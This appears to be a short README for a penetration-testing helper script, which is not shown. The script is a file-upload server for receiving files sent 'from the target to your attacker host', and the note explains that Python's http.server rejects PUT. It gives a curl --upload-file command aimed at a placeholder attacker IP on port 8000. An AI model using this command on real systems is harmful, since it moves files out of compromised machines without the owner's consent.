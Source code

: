 Python modules http.server and uploadserver appear not working when attemp to upload a file from the target to your attacker host. It returns an error that PUT method is not supported.
So this script will help, just run it and try to upload a file.
Linux: curl --upload-file <filename> http://<ip>:8000/

